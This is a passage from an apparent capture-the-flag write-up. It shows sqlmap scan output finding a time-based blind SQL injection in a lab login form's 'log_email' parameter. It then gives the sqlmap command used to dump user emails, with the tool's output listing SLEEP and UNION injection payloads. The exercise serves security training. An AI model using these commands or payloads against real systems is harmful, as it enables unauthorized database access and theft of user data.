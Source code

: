   ~~~bash
  [00:08:06] [WARNING] heuristic (basic) test shows that POST parameter 'log_email' might not be injectable
  [00:08:07] [INFO] heuristic (XSS) test shows that POST parameter 'log_email' might be vulnerable to cross-site scripting (XSS) attacks
  [00:08:07] [INFO] testing for SQL injection on POST parameter 'log_email'
  [00:08:07] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
  [00:08:07] [WARNING] reflective value(s) found and filtering out
  [00:08:07] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
  [00:08:08] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
  [00:08:08] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
  [00:08:08] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)'
  [00:08:08] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (XMLType)'
  [00:08:09] [INFO] testing 'MySQL >= 5.0 error-based - Parameter replace (FLOOR)'
  [00:08:09] [INFO] testing 'Generic inline queries'
  [00:08:09] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
  [00:08:09] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)'
  [00:08:09] [INFO] testing 'Oracle stacked queries (DBMS_PIPE.RECEIVE_MESSAGE - comment)'
  [00:08:10] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
  [00:08:20] [INFO] POST parameter 'log_email' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
  ~~~

  log_email

- What is Santa Claus' email address?

  **Solution:**

  ~~~bash
  $ python3 sqlmap.py -u http://10.10.29.192/register.php --data="log_email=hey&log_password=123&login_button=Login" --tables -D social -t users -C email --dump
          ___
         __H__
   ___ ___[.]_____ ___ ___  {1.4.9.23#dev}
  |_ -| . ["]     | .'| . |
  |___|_  [']_|_|_|__,|  _|
        |_|V...       |_|   http://sqlmap.org
  
  [!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program
  
  [*] starting @ 01:12:56 /2020-10-01/
  
  [01:12:56] [INFO] setting file for logging HTTP traffic
  [01:12:57] [INFO] resuming back-end DBMS 'mysql' 
  [01:12:57] [INFO] testing connection to the target URL
  you have not declared cookie(s), while server wants to set its own ('PHPSESSID=mbi8fttdaal...avmf3r3531'). Do you want to use those [Y/n] y
  sqlmap resumed the following injection point(s) from stored session:
  ---
  Parameter: log_email (POST)
      Type: time-based blind
      Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
      Payload: log_email=hola' AND (SELECT 4129 FROM (SELECT(SLEEP(5)))IkBb) AND 'XRpP'='XRpP&log_password=123&login_button=Login
  
      Type: UNION query
      Title: Generic UNION query (NULL) - 12 columns
      Payload: log_email=hola' UNION ALL SELECT NULL,NULL,NULL,CONCAT(0x717a706a71,0x4b466a5266706b587069506a556c6e4b784d6b62456c684f77584177774f504679676d4c55446359,0x7162717a71),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -&log_password=123&login_button=Login
  ---
  ~~~